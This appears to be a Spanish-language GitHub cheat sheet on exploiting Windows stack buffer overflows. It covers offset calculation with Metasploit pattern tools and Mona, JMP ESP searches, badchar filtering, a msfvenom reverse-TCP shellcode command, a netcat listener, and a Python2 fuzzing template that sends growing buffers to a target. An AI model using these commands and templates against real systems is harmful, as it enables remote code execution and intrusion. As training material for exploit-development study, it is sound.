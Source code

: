 # Buffer Overflow

## Desensamblar un archivo .exe 

```shell
objdump -d -Mintel goodpwd.exe > goodpwd_disassembled.txt
```


## Algunas Operaciones Inseguras
- strcpy
- vsprintf
- strcat
- printf
- gets / fgets
- memcpy
- scanf/ fscanf

## Conectarse a una maquina por RDP con xfreerdp 

```shell
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
```


## Calculado el offset
### Paso 1 
#### Generar un payload
con `msf-pattern_create`, tan grande como el numero que especifiquemos
```shell
msf-pattern_create -l 2000
```

### Paso 2
#### Copiamos el payload generado
y lo usamos en el input

### Paso 3 
#### Calcular el offset

por medio de msf-pattern_offset
```shell
msf-pattern_offset -q 30684239 
```

## Uso de Mona
### Configuramos el directorio de trabajo para Mona
```shell
!mona config -set workingfolder C:\somefolder\%p
```
### Para crear un payload con Mona 
```shell
!mona pc 100
```
### Para calcular el Offset
```shell
!mona po 61413761
```
Una vez que el EIP es sobreescrito podemos ejecutar:
```shell
!mona suggest
```
Mona nos pedirá que proporcionemos información sobre la carga útil y creará automáticamente un módulo Metasploit para explotar la aplicación.
### Modulos que no tengan ASLR activado 
```shell
!mona noaslr
```
### Verificar los modulos disponibles
```shell
!mona modules
```
### Saltar a un registro
especificamos el registro con -r
```shell
!mona jmp -r esp
```
### Especificar un modulo o mas de uno
```shell
!mona jmp -r esp -m kernel
```
o de la misma manera se puede usar para buscar con el opcode especifico:
```shell
!mona find -s "\xff\xe4" -m kernel
```
donde `xFFxE4 = JMP ESP`

Una vez que se encuentra la direccion de la instruccion se puede continuar

## Identificar los BadChars
### Lista de todos los posibles badchars
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
### Identificar batchars con mona
Previamente debemos tener un directorio de trabajo creado y usar 
```
!mona bytearray
```
Con lo cual se creara un archivo `bytearray.bin` en la carpeta de nuestro directorio de trabajo.
Luego ejecutamos el payload mandando los batchars, y comparamos usando 
```shell
!mona compare -f C:\Users\User\Desktop\carpeta\bytearray.bin -a 0187A128
```
donde especificamos la ruta del archivo `.bin` y con el parametro `-a` especificamos la direccion del `ESP`. Lo siguiente es quitar el resultado de badchar detectado de nuestro payload y crear otro `bytearray.bin` con el siguiente comando
```shell
!mona bytearray -cpb "\x00"
```
Donde especificamos los badchar que no queremos que se incluya en el nuevo `bytearray.bin`

## Generar la shellcode
### Ejemplo de Shellcode
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.15 LPORT=4646 -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai EXITFUNC=thread -f c --smallest
```
Donde especificamos la aqrquitectura del sistema, los badchars que no queremos que se incluyan en el shellcode.
## Para escuchar el puerto podemos usar 
```shell
rlwrap nc -nlvp 446
```
## Alternativa al uso de NOPs en la shellcode
El desplazamiento de pila es la alternativa al uso de NOPs, para ello utilizamos `msf-metasm_shell`, ejemplo recorrer en 10 unidades
```
sub esp,0x10
```
Lo cual nos dara como resultado el siguiente opcode
```
\x83\xEC\x10
```

## Plantilla de exploit en python2
```python
import socket

host = "172.16.169.140"
port = 9999

junkbytes = "A"*100
# eip = "\xf3\x12\x17\x31"
# esp = "C"*700
# nops = "\x90"*20
# badchars = "\x00\x0A"
# shellcode = "\a0\x0d..."


buffer = junkbytes # + eip + nops + esp

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        s.send(buffer+"\r\n")
        message = s.recv(1024)
        print(message)
        print("[+] Payload sent with length: " + str(len(buffer)))
        s.close()
        buffer += ("A"*100)
    except Exception as ex:
        print "\n !!! Error en la conexion !!!\r\n" + str(ex)
        sys.exit(1)


```